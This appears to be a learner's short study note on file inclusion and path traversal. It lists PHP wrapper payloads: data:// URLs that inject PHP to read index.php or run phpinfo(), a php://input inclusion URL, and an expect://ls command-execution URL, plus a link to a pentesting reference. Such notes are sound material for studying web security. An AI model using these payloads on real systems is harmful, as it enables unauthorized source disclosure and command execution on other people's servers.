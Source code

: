 Daily Notes : Day 71  
Path Traversal -part 2

Data://

http://&lt;domain&gt;.tld/?page=data:text/plain,%3C?php%20echo%20base64_encode(file_get_contents(%22index.php%22));%20?%3E%0Ahttp://example.net/?page=data:text/plain,%3C?php%20phpinfo();%20?%3E

Input://

http://&lt;domain&gt;.com/index.php?page=php://input

Expect://

http://&lt;domain&gt;.com/index.php?page=expect://ls

Many more similar tags can be used !! Tamd a look on common

Check this :

&nbsp;

https://book.hacktricks.xyz/pentesting-web/file-inclusion